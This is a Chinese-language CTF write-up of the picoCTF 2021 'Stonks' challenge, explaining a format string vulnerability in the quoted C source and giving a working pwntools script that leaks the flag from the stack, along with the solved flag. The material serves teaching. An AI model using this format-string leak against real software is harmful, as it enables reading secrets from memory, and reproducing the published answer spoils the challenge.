 ```yaml
---
layout: post
title: 初試 Format String Attack - picoCTF 2021 Stonks
tags: [CTF, pwn]
---
```


> I decided to try something no one else has before. I made a bot to automatically trade stonks for me using AI and machine learning. I wouldn't believe you if you told me it's unsecure!


infosec念了三年，CTF從來沒有碰過pwn題，決定來練個手

## 探索
`nc`過去會看到以下的畫面
```
Welcome back to the trading app!

What would you like to do?
1) Buy some stonks!
2) View my portfolio
```
選1的話
```
Using patented AI algorithms to buy stonks
Stonks chosen
What is your API token?
```
隨便塞點東西進去
```
Using patented AI algorithms to buy stonks
Stonks chosen
What is your API token?
DEADBEEF
Buying stonks with token:
DEADBEEF
Portfolio as of Wed Aug  4 07:06:25 UTC 2021


13 shares of AFWR
3 shares of FTT
2 shares of QTAE
40 shares of WJD
45 shares of IY
282 shares of JTT
1153 shares of Q
Goodbye!
```
然後就沒了...看來沒有什麼問題

選2的話
```
Portfolio as of Wed Aug  4 07:07:49 UTC 2021


You don't own any stonks!
Goodbye!
```

然後也沒了...

這樣看起來唯一可以被攻擊者控制的輸入是1的API token那一塊

---

題目額外給了[source code](https://mercury.picoctf.net/static/f9d545499faf6f436853685ad21dcb33/vuln.c)，快速看過去就知道問題在哪裡了
```c
int buy_stonks(Portfolio *p) {
	char api_buf[FLAG_BUFFER];
	FILE *f = fopen("api","r");
	if (!f) {
		printf("Flag file not found. Contact an admin.\n");
		exit(1);
	}
	fgets(api_buf, FLAG_BUFFER, f);

  /* ... */

	char *user_buf = malloc(300 + 1);
	printf("What is your API token?\n");
	scanf("%300s", user_buf);
	printf("Buying stonks with token:\n");
	printf(user_buf);

	// TODO: Actually use key to interact with API

	view_portfolio(p);

	return 0;
}
```
所以先把flag讀進來，然後...是user-controlled printf，看來這題就是format string attack

## Format String Attack
> The Format String exploit occurs when the submitted data of an input string is evaluated as a command by the application. In this way, the attacker could execute code, read the stack, or cause a segmentation fault in the running application, causing new behaviors that could compromise the security or the stability of the system. - [Format String Attack, OWASP](https://owasp.org/www-community/attacks/Format_string_attack)

簡單來說就是輸入的字串某種程度上被「執行」了，什麼意思呢

C有所謂的「格式化函數」，以`printf`為例
```c
printf("%d", a); // 把a「視為」一個整數輸出
printf("%s", a); // 把a指向的空間「視為」一個NULL-terminated字串輸出
printf("%s"); // 那這個呢？
```
在function call中，參數會一個一個疊在stack上，`printf`看到一個格式就會去找一個參數並依照設計好的方法解釋，那沒有參數怎麼辦？

`printf`也不會去管，就直接拿stack上的東西來用，也因此**Format String Attack可以用來讀stack上的資料**

而非常剛好的是，**`char[]`也是放在stack上面**(因為是local variable)，所以可以透過Format String Attack把flag弄出來

透過gdb也可以看出來flag放在哪裡

在`buy_stonks`的`printf`前設一個breakpoint然後看一下

{% include aligner.html images="posts/2021-08-17-format-string-attack/stack.png" column=1 %}

## 攻擊
```py
from pwn import *
from sys import exit

for i in range(100):
  print(f'\nCurrent i = {i}')
  try:
    s = remote('mercury.picoctf.net', 33411)

    s.recvuntil(b'2) View my portfolio')
    s.sendline(b'1')
    s.recvuntil(b'What is your API token?')
    s.sendline(bytes(f'%{i}$p', 'ascii'))
    res = s.recvuntil(b'Portfolio').split(b'\n')[2].decode('ascii')
    print(res)

    s.close()

    if res.startswith('0x'):
      for pos in range(2, len(res), 2):
        num = int(f'0x{res[pos]}{res[pos+1]}', base=16)
        print(hex(num), chr(num) if chr(num).isascii() else chr(num).isascii())
  
  except EOFError:
    s.close()
    print('Connection is dead.')
    continue

  except KeyboardInterrupt:
    s.close()
    exit(0)

  except IndexError:
    continue

# picoCTF{I_l05t_4ll_my_m0n3y_a24c14a6}
```
用`%p`一次leak 4個byte，每個byte嘗試轉成ascii範圍內的char，然後要注意因為是little endian所以順序要反過來
```
Current i = 15
[+] Opening connection to mercury.picoctf.net on port 33411: Done
0x6f636970
[*] Closed connection to mercury.picoctf.net port 33411
0x6f o
0x63 c
0x69 i
0x70 p

Current i = 16
[+] Opening connection to mercury.picoctf.net on port 33411: Done
0x7b465443
[*] Closed connection to mercury.picoctf.net port 33411
0x7b {
0x46 F
0x54 T
0x43 C
```
開著運行一下就會看到flag的影子，一路輸出到`}`就是全部的flag

## 參考資料
- [https://owasp.org/www-community/attacks/Format_string_attack](https://owasp.org/www-community/attacks/Format_string_attack)
- [https://en.wikipedia.org/wiki/Printf_format_string#Vulnerabilities](https://en.wikipedia.org/wiki/Printf_format_string#Vulnerabilities)